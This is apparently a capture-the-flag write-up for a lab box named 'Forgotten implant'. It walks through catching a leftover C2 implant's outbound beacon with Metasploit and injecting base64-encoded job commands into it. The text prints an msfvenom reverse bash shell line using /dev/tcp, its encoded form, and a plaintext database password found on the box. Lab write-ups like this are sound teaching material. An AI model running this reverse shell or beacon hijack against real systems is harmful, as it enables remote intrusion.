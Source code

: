 # Forgotten implant

Forgotten implant. Quite an original box on how to get into an already hacked device where the C2 implant was not removed.

With the help of the forgotten implant you must gain entry again.


## Getting in

As always, start with nmap

nmap -sC -sV -T5 -p- ${IP} -vv -oN box

But it does not find any open ports.

Ok, maybe udp? That matters sometimes. But since udp scan are SLOW as fok, better pass --top-ports 1024 to nmap.

nmap -sC -sV -sU -T5 --top-ports 1024 -vv -oN box ${IP}

blabla
Host is up, received reset ttl 63 (0.032s latency).
Skipping host 10.10.243.126 due to host timeout
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done -- 1 IP address (1 host up) scanned in 905.67 seconds

Nothing!

ok thats new, but as the hint says

"Your port scan is not misleading you"

this must be by design.

Knowing how C2 systems work, then it is only logical that the machine is sending data out and not in.
It's probably sending a beacon, asking the server what to do.

So let's see what tcpdump has to say on the vpn's network interface. tun0

```
sudo tcpdump -i tun0
```

17:42:04.029478 IP ${LIP}.81 > 10.10.169.196.43862: Flags [R.], seq 0, ack 3660637020, win 0, length 0

So it seems that something is sending packets to port 81. okay...

then lets see what by starting netcat.

```
nc -lnvp 81 
```

After some seconds an http request comes in written with python's requests package.

```
GET /heartbeat/eyJ0aW1lIjogIjIwMjMtMDgtMDhUMTU6NDQ6MDEuODkyOTY5IiwgInN5c3RlbWluZm8iOiB7Im9zIjogIkxpbnV4IiwgImhvc3RuYW1lIjogImZvcmdvdHRlbmltcGxhbnQifSwgImxhdGVzdF9qb2IiOiB7ImpvYl9pZCI6IDAsICJjbWQiOiAid2hvYW1pIn0sICJzdWNjZXNzIjogZmFsc2V9 HTTP/1.1
Host: 10.9.6.179:81
User-Agent: python-requests/2.22.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
```

it's sending a beacon to /heartbeat with base64.

the decoded base64 means.

```
{"systeminfo": {"os": "Linux", "hostname": "forgottenimplant"}, "latest_job": {"job_id": 0, "cmd": "whoami"}, "success": false}
```

Aha! It's querying for commands/jobs to do.

Well then, then there are a few options. 

1. We can write a server with a heartbeat endpoint.
2. We can use a real C2 like metasploit

Let's go for option 2, since this box is all about C2.

So fire up metasploit. metasploit -q.
And start catching the beacon with payload meterpreter/reverse_http.

```
use exploit/multi/handler
set payload linux/x64/meterpreter_reverse_http

set LPORT 81
set LHOST tun0

run

[*] Started HTTP reverse handler
```

Soon the requests come in and metasploit prints them.

[*] http://10.9.6.179:81 handling request from 10.10.243.126; (UUID: g6wztzlc) Unknown request to /heartbeat/eyJ0aW1lIjogIjIwMjMtMDctMzBUMDc6MDQ6MDEuODcyNTQ2IiwgInN5c3RlbWluZm8iOiB7Im9zIjogIkxpbnV4IiwgImhvc3RuYW1lIjogImZvcmdvdHRlbmltcGxhbnQifSwgImxhdGVzdF9qb2IiOiB7ImpvYl9pZCI6IDAsICJjbWQiOiAiY2F0IHVzZXIudHh0IiwgInN1Y2Nlc3MiOiB0cnVlLCAicmVzdWx0IjogIlRITXs5MDJlOGU4YjFmNDlkZmViNjc4ZTQxOTkzNWJlMjNlZn1cbiJ9LCAic3VjY2VzcyI6IGZhbHNlfQ== with UA 'python-requests/2.22.0'

So we need to send messages back and with the reverse_http payload all http headers and body and what not can be manipulated.
"show advanced" in meterpreter and there we have HttpUnknownRequestResponse. That's exactly what metasploit is saying! unknown request.

First try to get command execution by base64 encoding a simple ls.

```
{"job_id": 0, "cmd": "ls"}
```

Cyberchef is a handy tool for base64 encoding, base64 clutters up your history IMO.

So:
set HttpUnknownRequestResponse eyJqb2JfaWQiOiAwLCAiY21kIjogImxzIn0=

And wait. The beacon comes back with.....

"Unknown request to /job-result/eyJqb2JfaWQiOiAwLCAiY21kIjogImxzIiwgInN1Y2Nlc3MiOiB0cnVlLCAicmVzdWx0IjogInByb2R1Y3RzLnB5XG51c2VyLnR4dFxuIn0="

and that base64 string means....

"{"job_id": 0, "cmd": "ls", "success": true, "result": "products.py\nuser.txt\n"}"

We have command execution!

So yeah lets generate a shell with msfvenom and encode it inside the json.

```
msfvenom -p cmd/unix/reverse_bash lhost=tun0 lport=10666 R
```

[-] No platform was selected, choosing Msf::Module::Platform::Unix from the payload
[-] No arch selected, selecting arch: cmd from the payload
No encoder specified, outputting raw payload
Payload size: 70 bytes
bash -c '0<&94-;exec 94<>/dev/tcp/IP/10666;sh <&94 >&94 2>&94'

So encoded to base64 we get.

```
set HttpUnknownRequestResponse eyJqb2JfaWQiOiAwLCAiY21kIjogImJhc2ggLWMgJzA8JjEyNy07ZXhlYyAxMjc8Pi9kZXYvdGNwLzEwLjkuNi4xNzkvMTA2NjY7c2ggPCYxMjcgPiYxMjcgMj4mMTI3JyJ9
```

run

start another metasploit and set the payload to cmd/unix/reverse_bash

msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp and the correct port and interface
msf6 exploit(multi/handler) > set payload cmd/unix/reverse_bash
payload => cmd/unix/reverse_bash

run
Then run the http payload and wait.
Soon we get "[*] Accepted the first client connection..." but thats not enough, no real shell is generated.

and we have shell from the beacon

type shell in metasploit to upgrade to proper bash shell.

from there it's time to go for root, that is covered in other writeups. I tried with metasploit's post exploitation modules.

```
ada@forgottenimplant:~$ cat products.py
cat products.py
import mysql.connector

db = mysql.connector.connect(
    host='localhost', 
    database='app', 
    user='app', 
    password='s4Ucbrme'
    )

cursor = db.cursor()
cursor.execute('SELECT * FROM products')

for product in cursor.fetchall():
    print(f'We have {product[2]}x {product[1]}')

    mysql -h localhost -u app -p
mysql -h localhost -u app -p
Enter password: s4...
```